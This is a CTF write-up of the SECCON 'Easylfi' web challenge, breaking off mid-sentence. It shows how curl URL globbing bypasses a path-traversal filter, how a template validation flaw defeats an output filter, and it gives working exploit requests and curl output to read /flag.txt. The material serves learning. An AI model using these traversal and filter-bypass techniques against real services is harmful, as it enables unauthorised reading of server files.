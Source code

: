 ```yaml
---
title: Easylfi
published: true
ayout: post
date: 2022-10-15 18:54 +0600
tags: [CTF]
featured: false
---
```


I solved some web challenges with my idol ginoah. The challenges are awesome!

Description:

Can you read my secret?

The goal is to LFI /flag.txt

This flask app use curl to get a local file

```code
        proc = subprocess.run(
            ["curl", f"file://{os.getcwd()}/public/{filename}"],
            capture_output=True,
            timeout=1,
        )
```

where filename is a path parameter

```code
@app.route("/")
@app.route("/<path:filename>")
def index(filename: str = "index.html"):
```

Apparently, we need to traverse like ../../../../flag.txt

There are two WAFs. The first one filter filename with % or ..

```code
    if ".." in filename or "%" in filename:
        return "Do not try path traversal :("
```

Here, we use [URL globbing](https://everything.curl.dev/cmdline/globbing) to bypass the first WAF. {.}{.}/ equals to ../ , so

we can access flag.txt with {.}{.}/{.}{.}/flag.txt

The second WAF filter any response with content SECCON

```code
@app.after_request
def waf(response: Response):
    if b"SECCON" in b"".join(response.response):
        return Response(b"Try harder")
    return response
```

I found a logic flaw in validate func used by custom template func. We can substitue any string for { , though the function is intented to allow only keys like {...}

```code
    for i, c in enumerate(key):
        if i == 0:
            is_valid &= c == "{"
        elif i == len(key) - 1:
            is_valid &= c == "}"
        else:
            is_valid &= c != "{" and c != "}"
```

But there's still a problem. We can only replace one { now, and it is not enough to enclose SECCON in curly brackets.

ginoah found that we can use {.,.} to make the filename we curl reflected in the output. e.g.

```code
$ curl 'file:///app/public/{.}{.}/{.}{.}/flag.tx{\{,t}'
--_curl_--file:///app/public/../../flag.tx{
--_curl_--file:///app/public/../../flag.txt
SECCON{dummydummy}
```

Now we have two { , we can replace the output twice to eliminate string SECCON by GET /{.}{.}/{.}{.}/flag.tx{\{,t}?{=}{&{%0a--curl--file:///app/public/../../flag.txt%0aSECCON}=FLAG

The original solution by ginoah is trickier and shorter than it. We can use query string in file:// protocol, though it takes no effect.  The query string is revealed in the output e.g.

```code
$ curl 'file:///app/public/{.}{.}/{.}{.,.}/flag.txt?\{'
--_curl_--file:///app/public/../../flag.txt?{
SECCON{dummydummy}
--_curl_--file:///app/public/../../flag.txt?{
SECCON{dummydummy}
```

Then, we can get the flag by

